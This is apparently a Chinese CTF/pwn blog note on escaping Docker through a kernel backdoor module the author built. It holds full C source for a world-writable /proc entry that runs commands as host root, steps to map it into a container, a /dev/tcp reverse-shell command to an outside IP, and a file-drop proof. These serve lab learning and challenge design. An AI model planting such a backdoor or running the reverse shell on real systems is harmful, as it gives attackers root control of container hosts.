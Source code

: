 ```yaml
---
title: Docker 逃逸 潦草笔记
categories:
- CTF/Pwn
tags: 
---
```


> 参照[从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)，实现了一个通过linux内核后门对docker逃逸的例子。

## docker原理

- [linux中的容器与沙箱初探](https://atum.li/2017/04/25/linuxsandbox/)
- [Docker是如何实现隔离的](https://juejin.cn/post/6844904052006846478)
- [fork、vfork、clone区别](https://www.cnblogs.com/johnnyflute/p/3560102.html)
- [linux cgroups 简介](https://www.cnblogs.com/sparkdev/p/8296063.html)

## 内核态漏洞

- [从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)
- [play_with_docker](https://nightrainy.github.io/2019/10/31/play-with-docker/)

在以linux为底座的情况下，由于docker和宿主机共用linux内核，这使得逃逸过程可以退化为对linux内核漏洞的利用。例如使用内核函数call_usermodehelper拉起的用户态进程就直接是在宿主机正常namespace的root进程，在docker里如果能触发完成此过程，则完成逃逸。例如使用如下后门内核模块：

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/proc_fs.h>

MODULE_LICENSE("GPL");


static ssize_t kshell_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos)
{
    char buf[0x1000];
    copy_from_user(buf, ubuf, count);
    char *cmd_argv[] = {"/usr/bin/bash", "-c",buf,NULL};
    call_usermodehelper("/usr/bin/bash", cmd_argv, NULL, UMH_WAIT_PROC);

    return count;
}

const struct proc_ops myops = {
    .proc_write = kshell_write
};

static int kshell_init(void)
{
    printk(KERN_INFO "kernel shell, init!\n");
    proc_create("kshell",0666,NULL,&myops);
    return 0;
}
 
static void kshell_exit(void)
{
    remove_proc_entry("kshell", NULL);
    printk(KERN_INFO "kernel shell, exit!\n");
}
 
module_init(kshell_init);
module_exit(kshell_exit);
```

```makefile
obj-m += hello.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

编译、insmod、并映射到docker容器中：

```c
xuanxuan@ubuntu:~$ make
xuanxuan@ubuntu:~$ sudo insmod hello.ko
xuanxuan@ubuntu:~$ docker container run -v /proc/kshell:/kshell  -it ubuntu:18.04 bash
```

不过在最后利用的形式上与内核提权有所差异，由于namespace的影响，不直接通过回用户态然后执行/bin/sh在docker中获得一个宿主机的shell，但可以出网弹shell：

- [说一说反弹shell](http://www.singleye.net/2018/04/%E8%AF%B4%E4%B8%80%E8%AF%B4%E5%8F%8D%E5%BC%B9shell/)

```c
root@03ea4622e658:/# echo "/usr/bin/bash -i >& /dev/tcp/10.11.11.1/8888 0>&1 &" > /kshell
```

也可以使用落地文件，将命令在本地回显：

```c
root@03ea4622e658:/opt# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/6NRKJVEFBBGFB3UAOG4SELSIPD:/var/lib/docker/overlay2/l/Q23MHYI2YS55FM6SSF64IX4ZSD,upperdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/diff,workdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/work)
root@03ea4622e658:/# echo "id > /var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/merged/1.txt" > /kshell 
root@03ea4622e658:/# cat 1.txt 
uid=0(root) gid=0(root) groups=0(root)
```

还可以在宿主机上弹计算机（GUI程序不能使用root，要切回普通用户，卡了一晚上）：

```c
root@03ea4622e658:/# echo "su xuanxuan -c 'DISPLAY=:0 /usr/bin/gnome-calculator &'" > /kshell
```

## 出题环境搭建

内核态的利用一般仍归属于linux内核，并且看起来更多的逃逸都是与docker的使用、配置相关，在二进制上攻破docker守护进程本身并不常见，所以暂时搁置。

- [Docker 安全性与攻击面分析](https://www.anquanke.com/post/id/209448)
- [Docker 逃逸相关总结](https://www.geekby.site/2021/02/docker%E9%80%83%E9%80%B8%E7%9B%B8%E5%85%B3%E6%80%BB%E7%BB%93/)
- [docker 逃逸初学](https://chen1sheng.github.io/docker%E9%80%83%E9%80%B8/)

不过由于逃逸，所以在搭建题目上需要做队伍间隔离，一般三层：docker（deploy）-> qemu（flag）-> docker（attack）：

- [出题报告: nday_container_escape](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/xctf_huaweicloud-qualifer-2020/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-nday_container_escape.html)
- [出题报告: container/registry_misc](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202101/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerregistry_misc.html)
- [出题报告: container/latest_laravel](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202102/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerlatest_laravel.html)